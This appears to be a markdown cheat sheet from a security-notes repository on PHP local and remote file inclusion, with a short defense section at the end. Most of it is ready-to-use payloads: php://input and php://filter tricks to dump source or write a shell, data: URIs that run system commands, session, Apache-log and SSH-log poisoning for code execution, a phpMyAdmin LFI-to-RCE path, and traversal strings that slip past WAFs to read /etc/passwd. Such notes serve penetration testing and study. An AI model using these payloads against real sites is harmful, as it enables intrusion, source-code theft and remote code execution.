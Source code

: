 # File Inclusion    
Scene: Attacker can control the variable which can determine the included files  
*  [Remote file inclusion](#rfi)  
*  [Methods to include](#methods-to-include)  
*  [WAF bypass](#waf-bypass)  
*  [LFI with PHP7 segfault](#lfi-with-php7-segmentfault)  
*  [Defense](#defense)  
*  [Reference](#reference)  
Dangerous functions：  
PHP: `include()`, `include_once()`, `require()`, `require_once()`, `fopen()`, `readfile()`  
JSP: `java.io.FileReader()`  
ASP: `includefile`  

# RFI  
Include remote file, more dangerous, but more requirement, so mostly disappear in real world  
`php.ini` setting  
1. allow_url_fopen = on (default: on)  
2. allow_url_include = on (default: off)  

# Methods to include  
File inclusion is always used to arbitrary code execution:  
1. pseudo protocol  
```php
php://input
// Condition：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// get base-64 encoded source code
?file=php://filter/read=convert.base64-encode/resource=file.php
// It's important that filter can be used to handle string with various ways, please take a look at the reference#1
php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php

phar://path.zip/file.php
// php5.3.0up, parse the archived file
// Sam Thomas publish a new use of phar able to unserialize without unserialize() function, please take a look at my Unserialization part

zip://path.zip%23file.php
// php5.3.0up, work as phar://, but need absolute path, and need to encode # as %23

data:URL schema
// php5.2up, two settings in php.ini set to on
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system(ls);?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b (base64 encode phpinfo)
```  
More protocol：`file://`,`ftp://`,`zlib://`,`glob://`,`ssh2://`,`rar://`,`ogg://`,`expect://`  

2. Session inclusion  
We can control the content of session, and we also know the path of session...  
Path of session can be got from `session_save_path` in phpinfo  
Place of stored session：  
```php
/var/lib/php/sess_xxxxx
/var/lib/php/sessions/sess_xxxx
/tmp/sess_xxxxxx
/tmp/sessions/sess_xxxxx
```  
CVE：  
phpmyadmin from LFI to RCE  
```php
xxx/phpmyadmin/index.php?target=xxx.php%253F/../../../../../var/lib/php/sessions/sess_xxxxxx
```  

3. Log inclusion  
**Permission** to read the log?  
Take apache for example, request would be written to `access.log`, and error would be written to `error.log`. The default stored path is `/var/log/apache2/`  
Therefore, attacker always needs to get the path with config file, and pay attention to the fact that whether the request would be encoded (use burp to modify the encoded request), then include the log in the end  
4. SSH log inclusion  
**Permission** to read?  
Default path: `/var/log/apache2/access.log`,`/var/log/apache2/error.log`  
```php
ssh '<?php phpinfo();?>'@remotehost
// phpinfo in log, and include
```  
5. include temp file  
6. include `/proc/self/environ`: php requires to run as CGI  
7. include uploaded file: need uploading functionality on website itself   

# WAF bypass  
* Relative path bypass  
WAF usually detect **continuous** multiple `../`
```php
// according to parsing path

// not change
/./ not change
///./..//.//////./   -> use with conbination
```  
* Absolute path bypass, `/etc/passwd` would be blocked  
```php
/aaa/../etc/passwd
/etc/./passwd
```  

# LFI with PHP7 SegmentFault  
![]()  
In the environment of `ubuntu16+php7.1`:  
```
php://filter/string.strip_tags/resource=xxx
```  
will cause to segmentation fault. Therefore, the tmp file cannot be removed because PHP is crashed, then we can use bruteforce to include the tmp file. With analysis, the bug of PHP is due to the inference of null pointer.  
[Script by @Wang YiHang](https://www.jianshu.com/p/dfd049924258)

# Defense  
Make a conclusion of the requirement above, we can get the following mitigation  
* php `open_basedir`  
* read permission  
* filter of dangerous characters  

# Reference  
1. [Phith0n 谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)  
2. [LFI with phpinfo assistance](https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)
